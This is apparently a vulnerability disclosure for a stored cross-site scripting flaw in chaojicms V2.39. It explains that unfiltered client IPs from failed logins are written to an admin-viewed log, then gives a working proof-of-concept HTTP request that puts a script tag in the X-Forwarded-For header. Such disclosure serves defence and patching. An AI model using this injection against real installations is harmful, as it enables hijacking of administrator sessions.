

# Stored Cross-site scripting (XSS) vulnerability in chaojicms 

Vulnerability Name: chaojicms stored xss

Product Homepage: [http://www.chaojicms.com](http://www.chaojicms.com)

Software link: [http://www.chaojicms.com/index.php?api-web-index-freedown](http://www.chaojicms.com/index.php?api-web-index-freedown)

Version: V2.39

## 1.Technical Description:

The getClientIp function of /lib/tinwin.class.php does not filter the obtained ip, so we can insert the xss code

If the login fails in the checklogin function of /application/admin/controller/login.master.php, the ip will be added to the log, and the log can be viewed in the background.

```php
    public function addLoginLog($username,$status=1,$remark=''){
        $sip=$this->tinwin->getClientIp();
        $dsw=array(
            'addtime'=>time(),
            'login_ip'=>$sip,
            'username'=>$username,
            'login_status'=>$status,
            'remark'=>$remark
        );
        return $this->dbpdo->insert_data("userlogin",$dsw);
    }
```

So XSS is triggered when the administrator views the background login failure log.



## 2.PoC

POST：

```
POST /index.php?admin-master-login-checklogin HTTP/1.1
Host: 127.0.0.1:9000
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Connection: close
Referer: http://127.0.0.1:9000/index.php?admin-master-login
Cookie: PHPSESSID=b46b9fcca72e57528242bbc394672b95
Upgrade-Insecure-Requests: 1
X-Forwarded-For: </td><script>alert(1)</script><td>


dsw%5Busername%5D=1&dsw%5Bpsd%5D=1
```